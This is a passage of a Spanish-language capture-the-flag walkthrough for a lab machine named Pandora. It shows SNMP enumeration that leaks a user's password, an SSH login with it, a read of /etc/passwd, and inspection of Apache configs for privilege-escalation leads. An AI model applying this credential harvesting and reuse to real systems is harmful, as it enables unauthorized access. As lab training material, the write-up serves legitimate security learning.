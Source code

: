 ```bash
cat snmp_enum.txt | grep "daniel" -i
_______________________________________________________________________
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.25.4.2.1.5.823 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.1092 = STRING: "-u daniel -p HotelBabylon23"
```
---
Encontramos la contraseña del usuario `daniel`, la cual es `HotelBabylon23`. Intentamos conectarnos al servicio SSH utilizando estas credenciales.

```bash
ssh daniel@10.10.11.136
daniel@10.10.11.136's password: HotelBabylon23
_______________________________________________________________________
daniel@pandora:~$ 
```
---
Logramos conectarnos y establecemos un entorno de terminal adecuado.

```bash
export TERM=xterm
```
---
Enumeramos los usuarios del sistema para identificar posibles objetivos para escalar privilegios. Generalmente, los shells de los usuarios serán `/bin/sh` o `/bin/bash`.

```bash
daniel@pandora:~$ cat /etc/passwd | grep -E '(/bin/sh|/bin/bash)$'
_______________________________________________________________________
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
---
Identificamos un segundo usuario llamado `matt`. Revisamos las configuraciones de Apache para buscar más pistas.

```bash
daniel@pandora:~$ ls /etc/apache2/sites-enabled/
_______________________________________________________________________
000-default.conf  pandora.conf
```
---
El archivo `pandora.conf` es de interés, por lo que lo examinamos.

```bash
daniel@pandora:~$ cat /etc/apache2/sites-enabled/pandora.conf
_______________________________________________________________________
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```
---
El archivo de configuración reveló que el servidor escucha en `localhost` bajo el dominio `pandora.panda.htb`, y se ejecuta con los permisos del usuario `matt`. Actualizamos nuestro archivo `/etc/hosts` para incluir este subdominio.
